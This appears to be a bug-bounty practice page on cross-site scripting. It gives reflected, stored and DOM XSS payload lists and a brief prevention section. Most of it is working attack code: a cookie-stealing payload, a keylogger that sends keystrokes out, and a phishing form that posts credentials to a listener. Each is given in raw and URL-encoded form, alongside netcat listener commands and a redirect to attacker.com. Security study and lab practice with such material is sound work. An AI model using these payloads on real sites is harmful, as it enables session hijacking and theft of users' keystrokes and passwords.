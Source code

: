 # XSS
## Reflected XSS :
- Universal : `"><img src=x onerror=alert('XSS')>`
- Simple Alert Box : `<script>alert(document.cookies)</script>`
- Using HTML Tags : `<img src="x" onerror="alert('XSS')">`
- Using SVG Tag : `<svg/onload=alert('XSS')>`
- Using JavaScript Events : `<body onload=alert('XSS')>`
- Case Manipulation : `<ScRiPt>alert('XSS')</ScRiPt>`
- Using Double Quotes : `"<script>alert('XSS')</script>`
- Using JavaScript Protocol : `<a href="javascript:alert('XSS')">Click Me</a>`
- Using Event Handlers : '<input type="text" value="" onfocus=alert('XSS') autofocus>'
- Redirecting the User : `<script>window.location='http://attacker.com'</script>`
- 
  
















### Prevention of Reflected XSS:
- Input Validation: Validate and sanitize all user inputs.

- Output Encoding: Encode data before rendering it in the browser.

- Content Security Policy (CSP): Implement CSP to restrict the execution of unauthorized scripts.

- Use Secure Frameworks: Leverage frameworks that automatically handle XSS protections.

### Common questions about reflected cross-site scripting

- What is the difference between reflected XSS and stored XSS? 
Reflected XSS arises when an application takes some input from an HTTP request and embeds that input into the immediate response in an unsafe way. With stored XSS, the application instead stores the input and embeds it into a later response in an unsafe way.

- What is the difference between reflected XSS and self-XSS?
  Self-XSS involves similar application behavior to regular reflected XSS, however it cannot be triggered in normal ways via a crafted URL or a cross-domain request. Instead, the vulnerability is only triggered if the victim themselves submits the XSS payload from their browser. Delivering a self-XSS attack normally involves socially engineering the victim to paste some attacker-supplied input into their browser. As such, it is normally considered to be a lame, low-impact issue.


# --------------------------------------------------------------------------













# basic payload

# try
https://xss-quiz.int21h.jp/


### reflected:
```
<h1>xss try</h1>
<script>alert(1)</script>
<script>alert(document.cookie)</script>
'-alert(1)-'
"><script>prompt(1)</script>

```
```
ifty' ; alert() ;'test
```
![image](https://github.com/user-attachments/assets/8cda4789-521e-4bec-a2dd-5cb9daaf2595)

```
"onmouseover="alert(1)
```

![image](https://github.com/user-attachments/assets/2a104e6f-2780-41ec-89aa-b55b49158ad7)
```
javascript:alert()
```
![image](https://github.com/user-attachments/assets/c241170a-c0c8-43c1-b6a8-077e09b5a098)

URL REdirection:
```
<iframe src="http://bing.com" height = "100%" width="100%"></iframe>
```
```
<script>document.location.href="http://twitter.com"</script>

```

### stored :

```
<a id=x tabindex=1 onfocus=alert(1)>a</a>

<img src="does-not-exist" onerror="alert(document.cookie)">

“>img src=x onerror=alert(1)

<iframe onload=alert(document.domail)>
````
### DOM :
1) document.write :
```
"><svg onload=alert(1)>
" onload = "alert(document.cookies)
```
![image](https://github.com/user-attachments/assets/5b231551-8a4f-4300-a7e5-25cb89105e48)


2) innerHTML :
```
<img src="does-not-exist" onerror="alert(document.cookie)">
```

![image](https://github.com/user-attachments/assets/50dbf402-56d7-447d-a27c-d401301192f1)


3) jQuery anchor href :

after the path

```javascript:alert(document.cookie)```

and click backlink


   ![image](https://github.com/user-attachments/assets/c9b00d4c-ea24-4c01-aadb-3471141427c4)


4) jQuery hash

```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```
 
![image](https://github.com/user-attachments/assets/5ecb8438-f297-448b-a102-bdf5d2a60bde)

# XSS attack 1: Hijacking the user’s session
## Evil server 
```bash
node evil-server.js
```
download the zip file and use the command on terminal

[evil-server.js](https://github.com/fahimalshihab/Bug-Bounty/blob/main/XSS/Practice/evil-server-js.zip)

![image](https://github.com/fahimalshihab/Bug-Bounty/assets/97816146/0b07c731-cb75-4082-9e43-660816c685ea)

### Or 
can make local listener
```
nc -l localhost 5000
```
![image](https://github.com/fahimalshihab/Bug-Bounty/assets/97816146/3fb1b3e8-bae1-4e26-a49f-98d83509b151)


## Document.cookie
  ``` js
  <img src="does-not-exist" onerror="alert(document.cookie)">
  ```
  ``` %3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22alert(document.cookie)%22%3E```


## steal the session cookie
```js
    <img src="does-not-exist" onerror="var img = document.createElement(\'img\'); img.src = \'http://localhost:3001/cookie?data=\' + document.cookie; document.querySelector(\'body\').appendChild(img);">

```
``` %3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22var%20img%20%3D%20document.createElement(%27img%27)%3B%20img.src%20%3D%20%27http%3A%2F%2Flocalhost%3A3001%2Fcookie%3Fdata%3D%27%20%2B%20document.cookie%3B%20document.querySelector(%27body%27).appendChild(img)%3B%22%3E```

* Here's the JavaScript code from the last example in a readable form:
```js
var img = document.createElement('img');
img.src = 'http://localhost:3001/cookie?data=' + document.cookie;
document.querySelector('body').appendChild(img);
```


## key-logger:
```js
<img src="does-not-exist" onerror="var timeout; var buffer = \'\'; document.querySelector(\'body\').addEventListener(\'keypress\', function(event) { if (event.which !== 0) { clearTimeout(timeout); buffer += String.fromCharCode(event.which); timeout = setTimeout(function() { var xhr = new XMLHttpRequest(); var uri = \'http://localhost:3001/keys?data=\' + encodeURIComponent(buffer); xhr.open(\'GET\', uri); xhr.send(); buffer = \'\'; }, 400); } });">
```

```
%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22var%20timeout%3B%20var%20buffer%20%3D%20%27%27%3B%20document.querySelector(%27body%27).addEventListener(%27keypress%27%2C%20function(event)%20%7B%20if%20(event.which%20!%3D%3D%200)%20%7B%20clearTimeout(timeout)%3B%20buffer%20%2B%3D%20String.fromCharCode(event.which)%3B%20timeout%20%3D%20setTimeout(function()%20%7B%20var%20xhr%20%3D%20new%20XMLHttpRequest()%3B%20var%20uri%20%3D%20%27http%3A%2F%2Flocalhost%3A3001%2Fkeys%3Fdata%3D%27%20%2B%20encodeURIComponent(buffer)%3B%20xhr.open(%27GET%27%2C%20uri)%3B%20xhr.send()%3B%20buffer%20%3D%20%27%27%3B%20%7D%2C%20400)%3B%20%7D%20%7D)%3B%22%3E
```

* Here's the JavaScript code from the last example in a readable form:
```js
var timeout;
var buffer = '';
document.querySelector('body').addEventListener('keypress', function(event) {
	if (event.which !== 0) {
		clearTimeout(timeout);
		buffer += String.fromCharCode(event.which);
		timeout = setTimeout(function() {
			var xhr = new XMLHttpRequest();
			var uri = 'http://localhost:3001/keys?data=' + encodeURIComponent(buffer);
			xhr.open('GET', uri);
			xhr.send();
			buffer = '';
		}, 400);
	}
});
```

# XSS attack 2: Phishing to steal user credentials
Lets create a local listener server 
```
nc -l localhost 5000
```
![image](https://github.com/fahimalshihab/Bug-Bounty/assets/97816146/cf256d77-3c2a-4522-a1de-c2d37eb464c8)


```
<h3>Please login to proceed</h3> <form action=http://localhost:5000>Username:<br><input type="username" name="username"></br>Password:<br><input type="password" name="password"></br><br><input type="submit" value="Logon"></br>
```
![image](https://github.com/fahimalshihab/Bug-Bounty/assets/97816146/d494c8e2-cbd3-4ee7-832f-bf696f55b105)

yeahooo here we go 

![image](https://github.com/fahimalshihab/Bug-Bounty/assets/97816146/08c8d04d-9c05-403e-bb9a-b77724e1eae1)


